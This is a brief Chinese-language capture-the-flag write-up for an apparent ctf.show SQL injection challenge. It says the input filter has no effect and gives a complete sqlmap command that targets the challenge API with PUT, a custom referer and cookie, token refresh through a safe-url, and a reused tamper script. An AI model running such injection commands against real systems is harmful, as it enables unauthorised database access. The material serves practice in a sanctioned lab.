

# 知识点
*过滤没用影响，所以可以沿用web211的脚本
# 思路
```bash
python sqlmap.py -u "http://ac50365c-a80a-4fb8-ab51-ed846157a08f.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://ac50365c-a80a-4fb8-ab51-ed846157a08f.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211.py

```

